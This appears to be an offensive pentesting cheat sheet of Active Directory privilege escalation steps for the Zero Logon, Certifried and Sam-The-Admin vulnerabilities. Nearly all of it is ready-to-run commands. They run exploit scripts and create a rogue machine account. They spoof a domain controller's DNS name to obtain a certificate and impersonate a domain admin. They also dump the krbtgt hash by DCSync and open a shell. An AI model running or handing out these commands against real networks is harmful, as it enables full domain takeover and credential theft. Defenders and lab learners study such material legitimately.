 # Windows

## CVE-2020-1472 : Zero Logon
PoC based on this link : <https://github.com/dirkjanm/CVE-2020-1472>
```bash
python3 cve-2020-1472-exploit.py HOSTNAME IP
impacket-secretsdump 'HOSTNAME$@IP'
```

## CVE-2022-26923 : Certifried
More info in : <https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html>
By default, a user can create at least 10 computers. To verify this, check if ms-DS-MachineAccountQuota > 0 :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP getObjectAttributes 'DC=domain,DC=local' ms-DS-MachineAccountQuota
```
If it's okay, just add a computer with bloodyAD :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP addComputer COMPUTER_NAME 'COMPUTER_PASSWORD'
```
Then, set the dNSHostname attribute to match the domain controller dNSHostname attribute (for exemple DC.domain.local) :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP setAttribute 'CN=COMPUTER_NAME,CN=Computers,DC=domain,DC=local' dNSHostName '["DC.domain.local"]'
```
Use certipy to request a certificate for the computer, using default 'Machine' template & ADCS IP address. This will create a .pfx file, corresponding to the certificate issued by the CA :
```bash
certipy req 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD@ADCS_IP' -template Machine -dc-ip DC_IP -ca CA_NAME
```
Then, use certipy tool to get a TGT by using a Kerberos authentication (PKINIT), using the certificate :
```bash              
certipy auth -pfx ./DC.pfx -dc-ip 10.100.10.12
```
If it works, go to "HERE" section. Otherwise, use RBCD technique from bloodyAD. It will set up delegation rights :
```bash
openssl pkcs12 -in DC.pfx -out DC.pem -nodes
python3 bloodyAD.py -d domain.local  -c ":DC.pem" -u 'COMPUTER_NAME$' --host DC_IP setRbcd 'COMPUTER_NAME$' 'DC_NAME$'
```
Then, try to impersonate a domain admin using impacket :
```bash
impacket-getST -spn LDAP/DC.DOMAIN.LOCAL -impersonate ADMIN_NAME -dc-ip DC_IP 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD'
```
HERE - You'll get either the .ccache file (TGT) or the NT Hash. If you get the NT Hash, you know what to do next ;). It's linked to the DC computer account, so normally, you're admin. To use .ccache file :
```bash
cp XXXX.ccache /tmp/
export KRB5CCNAME=/tmp/XXXX.ccache
```
Finally, use impacket to perform a DCSync with the exported TGT :
```bash
impacket-secretsdump -user-status -just-dc-ntlm -just-dc-user krbtgt 'domain.local/XXXX@DC.domain.local' -k -no-pass -dc-ip DC_IP -target-ip IP_ADDRESS 
```

## CVE-2021-42278 & CVE-2021-42287 : Sam-The-Admin
Impersonate DA from standard domain user. Based on <https://github.com/WazeHell/sam-the-admin>
```bash
python3 sam_the_admin.py -domain-netbios NETBIOS_NAME -dc-ip IP_DC -shell 'DOMAIN/USERNAME:PASSWORD'
```
